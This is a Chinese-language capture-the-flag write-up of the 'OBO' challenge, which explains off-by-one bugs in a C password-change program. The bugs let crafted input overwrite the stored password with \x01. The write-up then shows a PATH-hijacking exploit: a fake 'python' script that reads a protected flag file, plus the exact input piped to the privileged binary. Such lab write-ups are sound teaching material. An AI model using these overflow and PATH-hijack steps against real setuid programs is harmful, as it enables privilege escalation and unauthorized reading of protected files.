 # OBO
拿到一個更改密碼的程式碼，一眼能看出許多地方有邊界錯誤：
 * 在generate_hex_table 這個程式裡：
```c
hex_table[256];
...
for (i = 0; i <= 256; ++i) hex_table[i] = -1;
for (i = 0; i <= 10; ++i) hex_table['0' + i] = i;
for (i = 0; i <= 6; ++i) hex_table['a' + i] = 10 + i;
for (i = 0; i <= 6; ++i) hex_table['A' + i] = 10 + i;
// I don't know why, but I was getting errors, and this fixes it.
hex_table[0] = 0;
```
 * 提示說：如果能找出為何會產生error，和為何加上這行
```c
hex_table[0] = 0;
```
  可以讓程式正常運行的原因，就可以破解這關了。
 * 在檢查新輸入的密碼是否夠複雜的程式碼：
```c
for (i = 0; i <= strlen(new_password); ++i) {
	int index = hex_table[(unsigned char) new_password[i]];
	if (index == -1) {
	   printf("Invalid character: %c\n", new_password[i]);
	   exit(1);
	}
	digits[index] = 1;
}
```
  可以看到因為邊界錯誤，把不該檢查的結束字元'\0'也做複雜度檢查，這就是為什麼上面要加入
```c
hex_table[0] = 0;
```
  才會正常運行的原因。
 * 同理，也可以看到digits的邊界也超出了一格，這超出的一格會以**int長度為單位**複寫stack上緊鄰的東西，也就是password！
 * 注意到sizeof(int) = 4 byte, 而sizeof(char) = 1 byte，所以password的前四格會被覆寫成[1][0][0][0]，也就是說password變成了：*\x01*！
 * 那麼，接下來只剩下更改password的部份了。但很不幸的，這部份還沒有implement，我們需要找其他方法。
 * 仔細看一下呼叫python的code：
```c
snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);
```
  是用相對路徑開啟，所以說不定我們能複製創一個set_password.py在另一個目錄下，印出flag：
```bash
#!/bin/sh
cat /home/obo/flag.txt
```
  我放到自己的目錄底下/home_users/pico62895，但很可惜，obo在這裡不能開啟password所以失敗，早該預料到的。
 * 那麼剩下調整環境變數，創一個叫作python的script檔，在export到PATH中：
```bash
pico62895@shell:~$ vim python
#!/bin/sh
cat /home/obo/flag.txt
pico62895@shell:~$ chmod +x python 
pico62895@shell:~$ export PATH=/home_users/pico62895:$PATH
#!/bin/sh
cat /home/obo/flag.txt
```
 * 然後再執行程式：
```bash
pico62895@shell:~$ (echo -e "123456789abcdefg\n\x01") | /home/obo/obo
New password: Confirm old password: watch_your_bounds
Password changed!
```
 * 成功取得 flag = watch_your_bounds。
